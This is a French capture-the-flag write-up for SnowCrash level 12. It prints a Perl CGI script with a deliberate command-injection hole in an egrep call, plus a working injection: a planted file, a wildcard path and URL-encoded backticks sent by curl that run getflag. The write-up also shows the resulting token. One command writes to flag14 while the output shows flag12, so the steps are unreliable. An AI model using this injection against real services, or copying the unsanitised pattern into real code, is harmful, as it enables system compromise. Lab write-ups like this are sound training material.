 
# **Level 12**

Pour le level12, nous avons un fichier en `.pl` qui semble faire tourner un server en `localhost:4646`

```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
```

Le programme prend le premier argument, met tout en majuscule et coupe la string au premier espace ensuite egrep est appeler en prenant cette string modifier en argument

En mettant des quotes `( `` )` la string contenue dqns ces quotes est executer par egrep mais le probleme est que ces quotes sont aussi interpreter par le terminal, donc on outrepasser se probleme on peux encoder la string qu'on passe en arguments avec l'encodage url

Ensuite on ne peux pas directement ecrire getflag car les caracteres sont passer en majuscules

Donc on creer un fichier `A`

```
level12@SnowCrash:/var/crash$ touch A
level12@SnowCrash:/var/crash$ echo '$(getflag > /var/crash/flag14)' > A
level12@SnowCrash:/var/crash$ cat A
$(getflag > /var/crash/flag12)
level12@SnowCrash:/var/crash$ chmod 777 A
```

On convertie ``` `/*/*/A` ``` en url encode string

> %60%2f%2a%2f%2a%2f%41%60

On fais la requete

```
level12@SnowCrash:/var/crash$ curl "127.0.0.1:4646/?x=%60%2f%2a%2f%2a%2f%41%
60"
level12@SnowCrash:/var/crash$ cat flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

> ### NEXT : [Level 13](/level13/resources/README.md)
